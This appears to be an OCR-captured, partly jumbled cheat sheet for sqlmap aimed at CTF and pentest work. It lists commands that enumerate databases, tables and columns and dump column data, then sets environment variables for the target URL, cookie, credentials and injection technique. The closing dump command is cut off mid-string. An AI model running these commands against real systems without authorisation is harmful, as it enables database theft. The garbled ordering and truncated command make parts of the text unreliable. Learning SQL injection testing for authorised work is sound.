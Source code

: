 **List Databases:**

```bash
sqlmap -u "$URL" --dbs
```

**List Tables:**

```bash
sqlmap -u "$URL" -D "$DB" --tables
```

**List Columns:**

```bash
sqlmap -u "$URL" -D "$DB" -T "$TABLE" --columns
```

**Dump Specified Columns:**

```bash
sqlmap -u "$URL" -D "$DB" -T "$TABLE" -C "$
```

## The SQLMap Masterclass: Conquer SQL Injection Vulnerabilities

SQLMap automates the detection and exploitation of SQL injection vulnerabilities. This guide shows how to set up your environment variables for dynamic use, then run SQLMap efficiently in your CTF or pentest workflow.

***

### I. Export Environment Variables Setup

Before running SQLMap commands, export all necessary variables in your terminal session to enable dynamic, reusable commands:

```bash
export URL="<https://example.com/vulnerable>"
export DATA="id=1&submit=Submit"
export DBMS="mysql"
export DB="database_name"
export TABLE="table_name"
export COLS="column1,column2"
export PROXY="<http://127.0.0.1:8080>"
export USER_AGENT="My-Custom-Agent"
export COOKIE="SESSION=abcd1234; other=xyz"
export AUTH_CRED="user:password"
export TECHNIQUE="B"  # B=Boolean, T=Time, U=Union, E=Error
```

This setup allows you to maintain one source of truth per target and reuse your commands rapidly without retyping specifics.

***

### II. Basic Usage with Environment Variables
